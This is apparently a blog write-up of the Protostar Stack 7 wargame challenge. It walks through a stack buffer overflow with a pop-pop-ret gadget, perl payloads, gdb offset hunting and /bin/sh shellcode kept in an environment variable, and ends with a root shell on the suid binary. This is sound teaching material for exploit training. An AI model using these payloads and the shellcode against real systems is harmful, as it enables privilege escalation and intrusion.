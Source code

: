 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 7"
date: 2012-01-09T18:36:00-05:00
comments: true
categories:
 - ret2text
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Welcome everyone to 2012! I took a bit of a break during these holidays, and am just starting to get back going. 

[This challenge](http://exploit-exercises.com/protostar/stack7) was very interesting to me.  I figured it would build off of the previous one.  However, it was its own standalone challenge. 

We are given the following code to the stack7 executable: 


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret &amp; 0xb0000000) == 0xb0000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
 }

 printf("got path %s\n", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{
 getpath();



}
```
From tinkering with the stack7 executable, I knew I was going to do a stack overflow, and somehow needed to execute code from the stack.  However, similar to the previous challenge, there was a filter on my return address, making it so I couldn't just jump to an address in the stack.  This meant figuring out a way around it. 

Using the note about this being a "return to .text" exploit, I started reading up.  This is a type of exploit that uses part of the executable, albeit even a string to execute as code, because the same characters are also x86 assembler instructions.  So I went about trying to find some code that would let me essentially, "jmp esp", or jump to the stack pointer, where I would put my shellcode.  To do this, I did the following: 

```
mandreko@li225-134:~$ msfelfscan -j esp stack7
[stack7]
```

This was disappointing.  At first, I thought maybe I was not using msfelfscan correctly, and had to tinker a bit.  But it just turns out, that there is no "jmp esp" in stack7.  What a bummer.  However, on a whim, I tried to see if maybe another option to msfelfscan would work: 

```
mandreko@li225-134:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
```

This is great! Some results!  Now let's just pick one, and attempt to use it as the return address in our overflow.  I found that the EIP offset was 80 bytes, so I wired it up as so, and debugged it: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x100' > /home/user/file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

This is a good sign.  It is overwriting the EIP now with "C" values (0x43).  So now we just need to know where in the 100 "C"s the return address is going to.  To do that, I did similar process to finding an EIP offset: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /home/user/file

user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x33614132 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x33614132
8
```

I simply generated a unique string using pattern_create.rb to replace the 100 "C"s, and then used pattern_offset.rb to tell me the offset when gdb got a segmentation fault.  So now I know that the first 8 "C"s are just junk.  Just to verify this, I ran it again, a little differently: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "D"x8 . "E"x100' > file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

This shows the 4 "D"s were properly placed, which proved to me that I was indeed going to need my buffer to look like:

```
| 80 bytes junk | pop-pop-ret | 8 bytes junk | address to execute |
```

Since it was actually going to execute the instructions at the last dword, I opted to put my shellcode in an environmental variable, since it was easy.  I again used the same [shellcode](http://www.exploit-db.com/exploits/13357) for dealing with gets() as I have in the last couple challenges: 

```
user@protostar:/opt/protostar/bin$ export SHELLCODE=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
The next problem was to find out where the address would reside in memory.  I used getenvaddr.c again to show me the address. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```
Just to be sure, I went to the /opt/protostar/bin directory to do this, since I knew the address could change based on what folder I was in.  I used this to get the address of my SHELLCODE variable by doing the following: 

```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr SHELLCODE ./stack7
SHELLCODE will be at 0xbffff985
```
Using this address, I exploited the stack7 executable: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "\x85\xf9\xff\xbf"' > /home/user/file
user@protostar:/opt/protostar/bin$ ./stack7 < /home/user/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCC▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```
There you have it, root access, and it was fairly easy.  This is the last challenge in the Protostar VM under the "Stack" category.  Next post you see should be a new category.